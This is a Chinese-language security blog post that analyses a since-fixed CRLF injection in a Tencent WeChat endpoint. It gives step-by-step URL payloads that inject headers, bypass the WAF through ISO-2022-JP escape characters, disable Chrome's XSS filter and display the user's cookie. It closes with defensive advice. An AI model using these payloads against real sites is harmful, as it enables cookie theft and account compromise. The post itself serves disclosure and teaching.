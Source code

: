 title: "CRLF Injection and Bypass Tencent WAF"
date: 2016-01-31 14:01:31
tags: [XSS, 安全]
---

## 前言

这是一篇关于HTTP Response Split（CRLF Injection）漏洞的及绕过腾讯WAF导致前端出现XSS的实例分析，个人觉得在这个过程中能学到点知识，因此整理出来分享一下，如果不感兴趣记得及时关闭页面。

## 关于HRS问题

我们都知道，HTTP协议是依靠两个CRLF，即`\r\n`来分割HTTP头部及响应体。基于这个认知，可以推出，HRS问题是由于服务端程序没有过滤掉头部中的特殊字符`%0D%0A`，直接输出到了返回的数据中，导致错误的解析。而在日常开发中，最常见的莫过于有以下的两种功能（1）URL跳转（2）Cookie的设置中出现。接下来的小节里，将会以一个Cookie实例作来说明这个问题的危害。实例在：http://wooyun.org/bugs/wooyun-2016-0173904 ，目前腾讯已经修复了。

## 接口说明

这个接口在大家使用微信红包的过程中都用过，我用xxx.com代表接口的域名，具体接口的功能我就先不说，虽然危害不大。接口如下：
```
https://xxx.com/cgi-bin/xxx/geiwofahongbaowojiugaosuni?exportkey=&pass_ticket=a
```

返回
```
HTTP/1.1 200 OK
Server: nginx/1.6.0
Date: Sat, 30 Jan 2016 12:08:28 GMT
Content-Type: text/html; charset=gbk
Content-Length: 0
Connection: keep-alive
Cache-Control: no-cache, must-revalidate
Set-Cookie: pass_ticket=a; Domain=xxx.com; Path=/; Expires=Sun, 31-Jan-2016 12:08:28 GMT
```

在微信端这个接口其实没有什么问题，因为微信客户端会把这个参数替换掉，因此攻击者填入的参数就会被直接去掉，然而在浏览器中，却导致了XSS。

## 一步一个脚印

#### 0x00 插入img标签

从上面接口的返回数据中，可以看到pass_ticket参数的值出现在了Set-Cookie头部中，我们先试试能不能用插入两个CRLF，然后插入img标签。
```
exportkey=&pass_ticket=a%0d%0a%0d%0a%3Cimg%20src=1%3E
```
然而这个请求返回了空，浏览器根本不去解析body里的内容。不能放弃，通过curl分析一下，发现其实后端并没有过滤，请求都返回了，只是Content-Length为0导致浏览器认为Body为空，使用命令`curl -kv <url>`可以看到以下的错误提示。
```
* Excess found in a non pipelined read: excess = 84 url = 
  /cgi-bin/xxx/geiwofahongbaowojiugaosuni?exportkey=&pass_ticket=a%0d%0a%0d%0a%3Cimg%20src=1%3E
  (zero-length body)
```
知道问题之后，我们下一步就是想方法让Content-Length的值不为0！试着在头部插入`Content-Length: 60`,得到以下的URL
```
exportkey=&pass_ticket=a%0d%0aContent-Length:60%0d%0a%0d%0a%3Cimg%20src=1%3E
```
浏览器里访问，bingo，图片出现了！

```
HTTP/1.1 200 OK
Server: nginx/1.6.0
Date: Sat, 30 Jan 2016 12:15:03 GMT
Content-Type: text/html; charset=gbk
Content-Length: 60
Connection: keep-alive
Cache-Control: no-cache, must-revalidate
Set-Cookie: pass_ticket=a

<img src=1>; Domain=wx.tenpay.com; Path=/; Expires=Sun, 31-J
```


![](https://raw.githubusercontent.com/zhchbin/zhchbin.github.io/source/source/images/56af0f2a143cfa3753b39a38XV1CJIiq.png)

#### 0x01 尝试执行脚本

能够插入img标签之后，我半生不熟的前端知识告诉我，src=1，图片肯定会加载失败，失败了就会有onerror的事件发生。于是，试试下面的URL
```
exportkey=&pass_ticket=a%0d%0aContent-Length:60%0d%0a%0d%0a%3Cimg%20src=1%20onerror=alert(1)%3E
```
事实告诉我们，现实并没有想象中的美好，服务器直接返回了501，这是什么原因导致的？尝试几次之后推断是被WAF拦截了。WAF是Web Application Firewall的缩写，我们的“恶意”请求被它检查出来。试了一下，发现在被和谐的的onerror和alert中间插入一些其他字符，就不会被拦截，例如：`on\error=al\ert(1)`，然而这并没有什么卵用，因为这根本就不是合法的HTML属性。

#### 0x02 Bypass WAF

有WAF，就得考虑如何绕过，然而在确认了自己的认知范围里并没有绕过的方法后，我去请教了某大牛。以下是他提供的思路及Bypass WAF的例子：


大概原理就是： 

1. 插入Content-Type更改response中的charset
2. 选择一个字符集，保证该字符集中的某个字符或字符串会被浏览器忽略（也可以是unicode transform）
3. 将会被忽略的字符插入到被blacklist拦截的字符之间
4. done

```
exportkey=&pass_ticket=a%0D%0AContent-Length:120%0D%0AContent-Type:text/html;%20charset=ISO-2022-JP%0D%0A%0D%0A%3Cimg%20src=x%20on%1B%28Jerror=al%1B%28Jert%28document.domain%29%3E
```

看到他的回复后，我只有一个想法：人要有敬畏之心！后来找了一下，在Chrome的Issue List找到了一些相关的讨论，https://crbug.com/114941

#### 0x03 绕过浏览器的XSS过滤

由于是反射型的XSS，Chrome里直接访问的时候会发现它拦截了脚本的执行，虽然在firefox里是可行的。从上面中的分析过程中，我们可以知道一个事情：可以在返回的头部的信息里插入任何头部信息！这看上去很赞，于是就想起了Chrome的XSS过滤是可以被关闭的，只要你返回的头部中带有`X-XSS-Protection:0`，构造URL如下：

```
?exportkey=&pass_ticket=a%0D%0AContent-Length:120%0D%0AX-XSS-Protection:0%0D%0AContent-Type:text/html;%20charset=ISO-2022-JP%0D%0A%0D%0A%3Cimg%20src=x%20on%1B%28Jerror=%22al%1B%28Jert%28document.co%1B%28Jokie%29%22%3E
```
点击后可以看到页面弹出了用户的Cookie，好了。虽然我们的`xxx.com`只是它的某个子域，这里的Cookie却弹出了其他子域名的，为什么呢？因为前端用了`document.domain = xx.com`。

![](https://raw.githubusercontent.com/zhchbin/zhchbin.github.io/source/source/images/56af08cb143cfae54c9777d4NE61bZEx.png)

## 最后说几句

在这个过程中，你学到了什么呢？反思这个过程，我觉得是信息量好大。对于我们做开发的，我认为最重要的一点是，用户的输入都是不可信的（这句话已经被无数人说过无数次了应该）。另外我读了一下Python Web框架里的一些代码，发现有些框架已经帮我们处理掉部分问题，例如在Flask中调用设置Cookie的相关接口中，`werkzeug`会使用白名单的机制检查每个byte，如果发现恶意字符，则将输入的值中用双引号包围起来，同时还有转义一部分字符，具体代码在这里：https://github.com/mitsuhiko/werkzeug/blob/master/werkzeug/_internal.py#L222 。

放几个参考链接：

0. https://en.wikipedia.org/wiki/HTTP_response_splitting
1. http://blog.bentkowski.info/2014/07/google-doodle-xss-actually-response.html 
2. http://drops.wooyun.org/papers/2466

